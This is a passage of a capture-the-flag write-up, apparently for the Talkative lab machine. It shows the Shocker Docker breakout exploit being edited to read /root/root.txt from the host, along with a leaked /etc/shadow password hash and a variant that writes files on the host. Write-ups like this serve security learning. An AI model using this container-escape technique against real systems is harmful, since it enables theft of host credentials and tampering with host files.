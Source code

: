 ```
saul:$6$19rUyMaBLt7.CDGj$ik84VX1CUhhuiMHxq8hSMjKTDMxHt.ldQC15vFyupafquVyonyyb3/S6MO59tnJHP9vI5GMvbE9T4TFeeeKyg1:19058:0:99999:7:::

```

#### Read root.txt

I’ll go back into the source, and on line 169, update the file it reads from `/etc/shadow` to `/root/root.txt`:

```

        if (find_handle(fd1, "/root/root.txt", &root_h, &h) <= 0)
                die("[-] Cannot find valid handle!");

```

On recompiling and re-uploading, it returns the flag:

```

root@c150397ccd63:~# ./so                           
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]

<enter>

[*] Resolving 'root/root.txt'
...[snip]...
[!] Win! /etc/shadow output follows:
c8c243c5************************

```

### Shocker File Write

#### POC

There’s some ability to write files using Shocker, though I can’t fully explain what’s required. HackTricks has a [version](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_override) that will write files on the host as well! It says that `cap_dac_override` is required for this to work, but it clearly does work on Talkative and that capability isn’t present.

I’ll upload the compiled writing version and run it, giving two files:

```

root@c150397ccd63:~# echo a  > a
root@c150397ccd63:~# ./sw /etc/hostname a

```
